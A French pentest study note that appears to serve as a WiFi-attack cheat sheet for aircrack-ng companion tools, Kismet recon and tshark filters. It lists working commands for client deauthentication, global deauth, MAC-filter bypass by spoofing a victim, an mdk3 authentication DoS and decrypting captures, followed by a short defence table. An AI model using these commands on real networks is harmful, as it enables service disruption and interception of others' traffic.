

# 🧰 Attaques WiFi — Outils & Recon

> [!info] **En 1 phrase**
> Les outils **complémentaires** d'aircrack-ng : **décrypter/déshabiller** des captures (airdecap-ng),
> **WIDS** (airtun-ng), **remote** (airserv-ng), **cartographie** (airgraph-ng), **Kismet/giskismet** (recon SQL + GPS),
> et les **astuces** : SSID caché, filtrage MAC, deauth globale, DoS d'authentification (mdk3), filtres tshark.

---

## 🎯 Concept



---

## 🧹 airdecap-ng : décrypter/déshabiller les captures

```bash
# Retirer les headers WiFi (réseau ouvert) → fichier .dec.cap
airdecap-ng -b $AP_MAC open-network.cap

# Déchiffrer une capture WEP
airdecap-ng -w $WEP_KEY wep.cap

# Déchiffrer une capture WPA2 (avec la passphrase)
airdecap-ng -e $AP_SSID -p $WPA_PASSWORD tkip.cap
```

> 💡 Utile pour analyser le **contenu applicatif** d'une capture (HTTP, creds) après crack.

---

## 🛰️ airserv-ng : aircrack à distance

```bash
airmon-ng start wlan0 3

# Exposer la carte sur un port réseau
airserv-ng -p 1337 -c 3 -d mon0

# Depuis une autre machine, piloter à distance
airodump-ng -c 3 --bssid $AP_MAC $HOST:$PORT
```

---

## 🛡️ airtun-ng : WIDS (détection temps réel)

> Requiert la **clé WiFi** et le **BSSID** — déchiffre les paquets en direct sur une interface virtuelle.

```bash
airmon-ng start wlan0 3

# Créer l'interface at0 qui auto-déchiffre les paquets
airtun-ng -a $AP_MAC -w $WEP_KEY mon0
```

---

## 📊 airgraph-ng : graphes de recon

> À partir du **CSV** exporté par airodump-ng.

```bash
# CAPR : graphe des AP (vert=WPA, jaune=WEP, rouge=open, noir=inconnu)
airgraph-ng -i wifu-01.csv -g CAPR -o wifu-capr.png

# CPG : graphe des probes des clients
airgraph-ng -i wifu-01.csv -g CPG -o wifu-cpg.png
```

---

## 🗺️ Kismet + giskismet : recon SQL + GPS

```bash
# Kismet : scan passif
kismet
# [enter][enter] puis [tab][close]
# Kismet > Add source > wlan0 > Add
#   .nettxt : données, .pcapdump : format wireshark

# GPS (optionnel) pour géolocaliser
gpsd -n -N -D4 /dev/ttyUSB0
#   -N : premier plan, -D : niveau de debug

# giskismet : importer dans une base SQL
giskismet -x kismet.netxml

# Générer un KML (Google Earth)
giskismet -q "select * from wireless" -o allaps.kml
giskismet -q "select * from wireless where Encryption='WEP'" -o wepaps.kml
```

---

## 🧪 Astuces & contournements

```bash
# Trouver un SSID caché : deauth un client → le SSID apparaît dans les probes
aireplay-ng -0 20 -a <BSSID> -c <VictimMac> mon0

# Contourner le filtrage MAC : adopter la MAC d'une victime
ifconfig wlan0mon down
macchanger --mac <macVictima> wlan0mon
ifconfig wlan0mon up
aireplay-ng -3 -b <BSSID> -h <FakedMac> wlan0mon

# Deauth globale (tous les clients)
aireplay-ng -0 0 -e hacklab -c FF:FF:FF:FF:FF:FF wlan0mon

# DoS d'authentification (mdk3)
mdk3 wlan0mon a -a $AP_MAC
```

---

## 🎛️ Filtres tshark

```bash
# Filtrer le handshake EAPOL dans une capture
tshark -r Captura-02.cap -Y "eapol" 2>/dev/null

# Voir en direct les trames de gestion (subtype 4 = probe request)
tshark -i wlan0mon -Y "wlan.fc.type_subtype==4" 2>/dev/null

# Filtrer handshake + association + beacons d'un AP précis
tshark -r Captura-02.cap -Y "(wlan.fc.type_subtype==0x08 || wlan.fc.type_subtype==0x05 || eapol) && wlan.addr==20:34:fb:b1:c5:53" 2>/dev/null

# Convertir un .cap avec handshake en .hccap (John Jumbo)
aircrack-ng -J network network.cap
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **WIDS/WIPS** | airtun-ng (et équivalents) pour surveiller et déchiffrer en temps réel |
| **Détection de deauth massives** | Signe de collecte d'handshake ou de DoS |
| **Surveillance RF** | Kismet permanent pour repérer les AP non autorisés |
| **Filtrage MAC** | Ne protège rien (contournable en 30 s) — ne pas s'y fier |

## ⚠️ Tips & Pièges

- **airdecap-ng** a besoin de la clé/passphrase : c'est un outil d'**analyse post-crack**.
- **Kismet** est passif et multi-cartes : idéal pour la recon sans être détecté.
- Le **CSV** d'airgraph doit être exporté par `airodump-ng` (option `-w` produit le .csv).
- `mdk3` et la deauth globale sont des **attaques de disponibilité** → cadre autorisé uniquement.

> [!info] 📚 **Sources**
> GitHub : [swisskyrepo/HardwareAllTheThings – `docs/protocols/wifi/wifi-other.md`](https://github.com/swisskyrepo/HardwareAllTheThings/blob/main/docs/protocols/wifi/wifi-other.md)

➡️ **Liens :** [[Attaques WiFi (WPA2 et PMKID)|📶 Hub WiFi]] · [[Attaques WiFi - Préparation & Basiques|🧰 Préparation]] · [[Attaques WiFi - WEP|🔓 WEP]] · [[Attaques WiFi - WPA2 PSK|🔐 WPA2-PSK]] · [[Bibliothèque technique|🏠 Index]]
